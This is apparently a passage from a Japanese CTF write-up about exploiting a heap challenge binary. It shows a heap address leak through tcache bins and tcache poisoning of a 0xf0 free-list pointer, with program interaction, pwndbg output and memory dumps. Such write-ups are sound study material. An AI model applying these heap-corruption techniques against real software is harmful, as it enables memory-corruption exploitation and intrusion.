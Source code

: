 ヒープアドレスのリークはtcachebinsにリンクされているchunkのアドレスをリークできるので、0x10サイズのchunkをdallocate()して、"\n"のみデータとして書き込み、その後にdview()するとヒープアドレスの上位7バイトをリークできる。
```
$ ./memory
Memory can be easily accessed !
1) read
2) write
3) allocate
4) free
5) view
6) exit
>> 3
size: 
>> 16
data: 
>> 
1) read
2) write
3) allocate
4) free
5) view
6) exit
>> 5

�UUUU　　<- ヒープアドレスのリーク
```



```
pwndbg> bins
tcachebins
0x20 [  6]: 0x55555555b2a0 —▸ 0x55555555a770 —▸ 0x55555555ae50 —▸ 0x55555555acb0 —▸ 0x55555555ab10 —▸ 0x55555555a6e0 ◂— 0x0
0x70 [  7]: 0x55555555a9b0 —▸ 0x55555555ab50 —▸ 0x55555555acf0 —▸ 0x55555555ae90 —▸ 0x55555555b030 —▸ 0x55555555b1b0 —▸ 0x55555555a700 ◂— 0x0
0x80 [  7]: 0x55555555a910 —▸ 0x55555555aa90 —▸ 0x55555555ac30 —▸ 0x55555555add0 —▸ 0x55555555af70 —▸ 0x55555555b220 —▸ 0x55555555a660 ◂— 0x0
0xd0 [  5]: 0x55555555a190 —▸ 0x555555559e60 —▸ 0x555555559b30 —▸ 0x555555559800 —▸ 0x555555559370 ◂— 0x0
0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555a390 ◂— 0x0
```


dwrite()を用いて0xf0のtcacheのフリーchunkを0x55555555a390から0x55555555aef0に変更する。
0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555a390 ◂— 0x0
　　　　　　　　　　　　　　　
0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555aef0 ◂— 0x0


0x55555555b070:	0x000055555555b1b0	0x000055555555ae90
0x55555555b080:	0x0000000000000000	0x0000000000000000
0x55555555b090:	0x0000000000000000	0x00000000000000f1
0x55555555b0a0:	0x000055555555aef0	0x0000555555559010
　　　　　　　　~~~~~~~~~~~~~~~~~~　　
0x55555555b0b0:	0x0000000000000000	0x0000000000000000
0x55555555b0c0:	0x0000000000000000	0x0000000000000000
0x55555555b0d0:	0x0000000000000001	0x0000000000000035
0x55555555b0e0:	0x0000000000000000	0x0000000000000000
